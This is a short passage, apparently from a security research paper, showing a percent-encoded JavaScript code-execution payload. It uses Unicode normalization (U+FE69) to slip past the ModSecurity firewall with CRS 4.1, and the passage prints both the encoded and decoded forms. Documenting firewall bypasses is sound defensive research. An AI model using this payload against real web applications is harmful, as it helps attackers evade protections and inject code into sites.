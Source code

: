 \begin{lstlisting}[style=basicStyle, language=Python]
%5B%5D.constructor.constructor%28%27prompt%60%EF%B9%A9%7Bsecret%7D%60%27.normalize%28%27NFKC%27%29%29%28%29
\end{lstlisting}

The percent encoded payload successfully bypasses the ModSecurity firewall using CRS4.1. If decoded on the Web server, it resolves into the targeted payload (the character U+FE69 is displayed by the regular \$ surrounded by whitespaces in this document):

\begin{lstlisting}[style=basicStyle, language=Python]
"[].constructor.constructor('prompt` $ {secret}`'.normalize('NFKC'))()"
\end{lstlisting}





